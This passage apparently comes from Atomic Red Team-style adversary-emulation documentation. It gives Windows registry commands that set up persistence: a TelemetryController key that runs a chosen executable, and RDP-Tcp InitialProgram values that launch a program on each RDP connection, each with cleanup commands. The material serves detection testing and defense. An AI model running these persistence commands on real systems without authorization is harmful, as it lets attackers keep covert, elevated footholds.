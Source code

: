 **Supported Platforms:** Windows


**auto_generated_guid:** 4469192c-2d2d-4a3a-9758-1f31d937a92b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| new_key | New Registry Key Added | string | NewKey|
| new_executable | Custom Executable to run | string | C:&#92;Windows&#92;System32&#92;notepad.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController\#{new_key}" /t REG_SZ /v Command /d #{new_executable} /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController\#{new_key}" /f
```





<br/>
<br/>

## Atomic Test #86 - Modify RDP-Tcp Initial Program Registry Entry
If the fInheritInitialProgram value is set to 1, the exe indicated in the InitialProgram value is automatically started on RDP connection.
Once the test commands are run, notepad will execute automatically on new RDP connection

**Supported Platforms:** Windows


**auto_generated_guid:** c691cee2-8d17-4395-b22f-00644c7f1c2d






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v fInheritInitialProgram /t REG_DWORD /d 1 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v InitialProgram /t REG_SZ /d "C:\Windows\System32\notepad.exe" /f
```

#### Cleanup Commands:
```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v InitialProgram /t REG_SZ /d "" /f
```





<br/>
